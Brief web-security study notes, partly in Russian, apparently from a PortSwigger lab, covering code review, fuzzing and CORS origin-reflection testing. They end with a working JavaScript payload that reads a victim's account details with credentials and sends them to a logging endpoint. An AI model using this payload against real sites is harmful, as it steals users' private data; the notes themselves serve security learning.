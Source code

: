 # Analyzing Source Code for Vulnerabilities
Load source code
Use IDE debugger to analyze
Find authorization, authentication, redirects, secrets, user input logic, pages without authentication


# DAST
Fuzzing


# CORS
Политика обходящая SOP. Цель зать доступ другим сайтам к ресурсам твоего сайта
### CORS vulnerability with basic origin reflection
Получить любой ответ от сервера
Проверить наличие заголовков Access-Control-Allow-...
Вставить через прокси заголовок `Origin: https://hello.world`
Уязвим - если в ответе появился `Access-Control-Allow-Origin: https://hello.world`
```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```